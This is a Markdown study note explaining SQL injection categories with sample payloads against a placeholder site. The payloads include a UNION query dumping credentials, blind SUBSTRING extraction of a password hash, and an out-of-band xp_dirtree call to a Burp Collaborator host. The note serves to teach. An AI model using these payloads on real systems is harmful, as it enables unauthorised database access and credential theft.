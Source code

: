 ```yaml
---
dg-publish: true
---
```

---
# OWASP top 10 web vuln:

![](../../attachments/Pasted%20image%2020250202004548.png)

---

# Types of SQL Injection

![](../../attachments/Pasted%20image%2020250202005406.png)

## In-band (Classic)

In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack. Retrieved data is presented directly on the application web page.

- Easier to exploit than other categories of SQLi.

### Error-Based SQLi

Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.

#### Example:

**Input:**

```sql
www.random.com/app.php?id='
```

**Output:**

```
You have an error in your SQL syntax, check the manual that corresponds to your MySQL server version ...
```

### Union-Based SQLi

Union-based SQLi is an in-band SQLi technique that leverages the `UNION` SQL operator to combine the results of two queries into a single result set.

#### Example:

**Input:**

```sql
www.random.com/app.php?id=' UNION SELECT username, password FROM users --
```

**Output:**

```
carlos
afibh9cjnkuwcsfobs7h
administrator
tn8f921skp5dzoy7hxpk
```

---

## Inferential (Blind)

Inferential SQLi occurs when there is no direct transfer of data via the web application. However, the attacker can still reconstruct the information by sending specific requests and observing the resulting behavior of the database server.

- Just as dangerous as in-band SQL injection.
- Takes longer to exploit than in-band SQL injection.

### Boolean-Based Blind SQLi

Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return different results depending on whether the query returns `TRUE` or `FALSE`.

#### Example:

**Input URL:**

```sql
www.random.com/app.php?id=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1
```

**Payload #1 (False):**

```sql
www.random.com/app.php?id=1 AND 1=2
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=2
```

**Payload #2 (True):**

```sql
www.random.com/app.php?id=1 AND 1=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=1
```

**Users Table:**

```
Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

**Extracting Data Example:**

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

If nothing is returned on the page → `False` → `'s'` is NOT the first character of the hashed password.

Try another letter:

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'e'
```

If a title is returned on the page → `True` → `'e'` IS the first character of the hashed password.

### Time-Based Blind SQLi

Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.

#### Example Query:

If the first character of the administrator's hashed password is `'a'`, wait for 10 seconds.

- **Response takes 10 seconds →** First letter is `'a'`
- **Response does not take 10 seconds →** First letter is not `'a'`

---

## Out-of-Band SQLi

Out-of-band SQLi occurs when an attacker triggers an out-of-band network connection to a system they control. This technique is less common but can be very powerful.

- A variety of protocols can be used (e.g., DNS, HTTP).

#### Example Payload:

```sql
EXEC master..xp_dirtree '//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
```

---

This properly formatted Markdown should now be readable and structured well for any documentation or reference purposes!